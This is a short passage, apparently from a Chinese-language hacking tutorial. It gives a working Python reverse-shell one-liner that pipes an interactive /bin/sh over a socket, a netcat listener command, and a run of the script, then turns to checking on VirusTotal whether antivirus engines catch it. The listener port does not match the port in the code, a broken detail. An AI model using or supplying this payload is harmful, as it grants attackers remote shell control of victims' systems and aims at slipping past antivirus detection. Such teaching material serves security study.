 ```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

现在让我们运行代码以查看是否获得 shell。我们将使用 Netcat 监听器接收 shell：

```py
nc -nlvp 8000
python3 my_car.py
```

实施前述命令后，会产生以下截图中显示的输出：

![](img/005f4f32-081f-49bf-a68e-694f61a4c0cb.png)

我们可以看到前述代码运行得相当好。重要的是我们要看看这是否会被任何杀毒引擎检测到。让我们使用 VirusTotal 工具进行检查，如下所示：
